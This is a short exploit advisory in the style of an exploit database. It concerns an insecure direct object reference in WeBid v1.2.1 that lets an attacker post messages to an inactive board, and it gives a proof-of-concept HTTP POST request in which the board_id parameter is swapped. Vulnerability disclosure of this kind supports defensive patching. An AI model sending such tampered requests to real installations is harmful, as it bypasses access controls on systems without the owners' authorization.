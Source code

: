 # Exploit Title: Webid v1.2.1 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to post a message in a board that is inactive(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /msgboard.php?board_id=3 HTTP/1.1
...

csrftoken=d9f7a01e2ac2197ab888018b2588a3ab&action=insertmessage&board_id=2(CHANGE HERE)&newmessage=hello+i+am+user2&Submit=Post+Message
```